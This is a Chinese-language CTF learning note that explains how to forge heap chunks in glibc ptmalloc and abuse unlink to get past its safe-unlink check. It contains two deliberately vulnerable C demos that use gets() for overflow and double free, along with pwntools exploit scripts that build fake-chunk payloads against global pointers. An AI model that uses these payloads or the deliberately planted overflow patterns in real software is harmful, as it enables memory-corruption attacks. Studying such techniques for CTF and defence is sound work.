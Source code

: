 ```yaml
---
layout:     post
title:      "ptmalloc堆块伪造"
subtitle:   "基于unlink的check机制"
date:       2018-07-11 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - Linux
    - 笔记
 
---
```



##0x00原理
1.ptmalloc的相邻空块合并原则。

2.堆chunk本身的结构机制。

##0x01详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

##0x02要求

有check的堆溢出利用。

* 有两个相邻的堆块
* 第一个堆块可溢出第二个
* 释放第二个堆，即可触发。

或者

* 有一个已分配的堆
* 有一个指向堆上的可控指针
* free参数可控

这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：



	1.分配两个堆
	2.释放掉这两个堆
	3.分配一个可以包含住前面两个堆的大堆块
	4.写入这个大堆块构造两个伪chunk
	5.通过第2步中释放两个堆

这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
##0x03用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


##0x04演示
为了具体的说明问题，这里写了两个demo演示效果。
###Demo1


	void *global[80];
	
	void *global[80];
	
	int main(void)
	{
	    void *p1,*p2;
	    p1=malloc(200);
	    p2=malloc(200);
	    global[40]=p1;
	    printf("before exploit:%x\n",global[40]);
	    puts("read");//for debug
	    gets(p1);//overflow
	    free(p2);
	    printf("after exploit:%x\n",global[40]);
	    return 0;
	}


这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

	from pwn import*
	io=elf('./demo1')
	io.recvuntil('read')
	sc=p32(0x0)+p32(0xc9)+p32(0x804A100-0xc)+p32(0x0804A100-0x8)+'a'*(200-16)+p32(0xc8)+p32(0xd0)
	io.sendline(sc)
	io.read()


###Demo2

	int *global[40];
	int main(void)
	{
	  void *p1,*p2,*p3;
	  p1=malloc(200);
	  p2=malloc(200);
	  global[20]=p1;
	  free(p1);
	  free(p2);
	  p3=malloc(500);
	  puts("get");//for debug
	  gets(p3);
	  free(p2);
	  return;
	}

这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。


	from pwn import*
	io=elf('./demo2')
	io.recvuntil('get')
	sc=p32(0x0)+p32(201)+p32(0x804a0b0-0xC)+p32(0x804a0b0-0x8)+'a'*(200-16)+p32(200)+p32(0x128)
	io.sendline(sc)
	io.read()

##0x05总结
这个exp就可以实现利用，感觉这个exp的伪堆块构造要比上面Demo更复杂一些。这个exp我搞了好久，因为不知道为什么一直会触发free的check导致程序崩溃。后来查了一些资料终于明白了，必须要保证你分配的堆与你在其中构造的两个堆块的大小完全一致。
比方说我这里是malloc(500)，调试一下发现分配了504（鬼知道为什么），那么就是504-8-200=0x128，如果不跟分配的堆块边境符合的话就会触发check从而crash掉。




